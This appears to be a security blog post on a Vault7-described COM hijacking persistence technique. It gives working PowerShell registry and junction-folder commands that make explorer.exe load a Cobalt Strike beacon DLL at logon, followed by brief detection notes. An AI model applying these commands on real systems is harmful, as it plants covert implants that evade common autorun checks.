

Note that this example requires a file on disk and modification/addition of the HKCU hive.
https://vanmieghem.io/persisting-like-a-cia-agent/
A while back a colleague of mine pointed me to this Vault7 page. Last weekend I found some time to get this technique to work. Please read the Vault7 page first and if you’re interested, more research related to COM hijacking and on Abusing the COM Registry Structure.
Basically this method works by registering a COM CLSID and using that CLSID to point to an (in this case) executable. When Windows encounters this CLSID, it performs a lookup in the registry and executes the corresponding COM object, given the correct properties are set. So called “Junction Folders” are then used to trigger CLSID lookups in Windows.
Configuring peristence
PS C:\> [guid]::newguid()
Guid
----
781a4161-4490-408d-814a-93efe3b100c3
The third command is most interesting because this is where you point the CLSID to your executable on disk, in this case C:\beacon.dll. For this method to work, there are some requirements to be met by this executable (more about that later).
New-Item –Path "HKCU:\Software\Classes\CLSID\" -Name "{781a4161-4490-408d-814a-93efe3b100c3}"
New-Item –Path "HKCU:\Software\Classes\CLSID\{781a4161-4490-408d-814a-93efe3b100c3}" -Name "InprocServer32"
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{781a4161-4490-408d-814a-93efe3b100c3}\InprocServer32" -Name "(Default)" -Value "C:\beacon.dll" -PropertyType "String"
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{781a4161-4490-408d-814a-93efe3b100c3}\InprocServer32" -Name "ThreadingModel" -Value "Apartment" -PropertyType "String"
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{781a4161-4490-408d-814a-93efe3b100c3}\InprocServer32" -Name "LoadWithoutCOM" -Value "" -PropertyType "String"
New-Item –Path "HKCU:\Software\Classes\CLSID\{781a4161-4490-408d-814a-93efe3b100c3}" -Name "ShellFolder"
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{781a4161-4490-408d-814a-93efe3b100c3}\ShellFolder" -Name "HideOnDesktop" -Value "" -PropertyType "String"
New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{781a4161-4490-408d-814a-93efe3b100c3}\ShellFolder" -Name "Attributes" -Value 0xf090013d -Type DWord
Then you create your junction folder, using this CLSID we just registered. Windows Explorer will help us by hiding the CLSID:
New-Item -ItemType Directory -Force -Path "C:\Users\superusr\Appdata\Roaming\Microsoft\Windows\Start Menu\Programs\Windows Accessories\Indexing.{781a4161-4490-408d-814a-93efe3b100c3}"

For persistence, this directory should be a directory that Explorer loads when started on boot. CIA recommends using Windows Accessories, but I’m sure there are other directories. The Startup directory could also be used but is obviously more suspicious. Procmon could be of help finding those directories that can be used to persist using Windows Explorer (or others).
DLL structure
I’ve spent some time trying to create a C++ DLL that executes shellcode or a process, but all attempts resulted in explorer.exe crashing. Eventually, I tried a stageless x64 DLL generated by Cobalt Strike containing 64-bit shellcode on a x64 version of Windows 10, which did the job.
Based on artifact kit’s source code, a VirtualAlloc + VirtualProtect + CreateThread execution with stageless 64-bit shellcode should work, but I still have to figure out the exact constrains set by explorer.exe.
Detection
Yeah, that’s a bit more difficult. Autoruns does not detect this persistency method. @fuseyjz from Countercept created a script that can be used to hunt for this technique by enumerating folders containing a CLISD in ...\Start Menu\ and mapping them against CLSIDs registered in the registry. However, it should be noted that this script only checks HKCU and that explorer.exe is not the only process that can be leveraged to perform a CLSID lookup…